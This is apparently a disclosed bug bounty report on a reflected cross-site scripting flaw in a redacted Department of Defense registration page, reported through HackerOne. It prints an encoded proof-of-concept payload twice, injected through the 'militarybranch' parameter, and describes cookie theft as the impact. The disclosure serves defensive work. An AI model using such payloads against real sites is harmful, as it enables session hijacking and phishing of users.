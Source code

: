 # Reflected XSS in ██████████

## Report Details
- **Report ID**: 1882751
- **URL**: https://hackerone.com/reports/1882751
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-02-22T12:11:01.978Z
- **Disclosed**: 2023-03-24T17:26:52.240Z

## Reporter
- **Username**: 0xd3adc0de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
XSS vulnerability found on one of `██████████` subdomains. [ DoD scope]

After analyzing `https://████████████/` (███████) I found  `path/user/NextRequestAccount.action` page that have `militarybranch` parameter in `GET` request.  `militarybranch` parameter vulnerable to XSS vulnerability.


`https://█████████████/` requires a valid user to access the contents, but the registration page is accessible to all visitors without any restrictions or credentials.
████

User should select `Military Branch` in registration page and there is reflection point! 
Modifying `militarybranch` parameter in request and set payload on it, you'll receive `XSS Success!` alert box.

Payload:
`https://████████████/path/user/NextRequestAccount.action?militarybranch=███%3CHTMl%0Aonmouseover%0A=%0Aalert(%27XSSSuccess!%27)%0Dx//&firstName=0xd3adc0de&middleName=0xd3adc0de&lastName=0xd3adc0de&email=0xd3adc0de&title=0xd3adc0de&department=&organization=&ship=0xd3adc0de&orgid=&location=`
█████

## References
https://owasp.org/www-community/attacks/xss/

## Impact

By exploiting this vulnerability an attacker can trick the users to execute XSS and steal user's cookies.
Launch advanced phishing attacks.
Execute browser-based attacks etc.

## System Host(s)
████████████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
* Visit the following URL 
`https://████████████/path/user/NextRequestAccount.action?militarybranch=████%3CHTMl%0Aonmouseover%0A=%0Aalert(%27XSSSuccess!%27)%0Dx//&firstName=0xd3adc0de&middleName=0xd3adc0de&lastName=0xd3adc0de&email=0xd3adc0de&title=0xd3adc0de&department=&organization=&ship=0xd3adc0de&orgid=&location=` you will receive `XSS Success!` alert box.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
